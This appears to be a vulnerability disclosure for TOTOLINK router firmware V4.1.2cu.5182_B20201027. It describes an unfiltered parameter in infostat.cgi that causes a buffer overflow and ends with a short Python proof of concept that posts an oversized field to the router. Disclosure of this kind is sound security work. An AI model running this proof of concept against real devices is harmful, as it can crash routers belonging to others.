 # Firmware:
TOTOLINK:V4.1.2cu.5182_B20201027
http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=62&ids=36

# Detail:

Parameters in infostat.cgi are not filtered, causing a buffer overflow vulnerability

![CZ}53``7N)N5EZ{Y6JDUJ(L](https://user-images.githubusercontent.com/84966968/183253587-485e610d-b3b6-4ef4-95b5-9b05818f7620.png)

The fread function copies data directly to the V11 register without filtering, causing a buffer overflow
# poc：
```
import requests
data = {'a':'a'*0x4000}
res = requests.post("http://192.168.0.1/cgi-bin/infostat.cgi", data=data)
print(res.content)
```

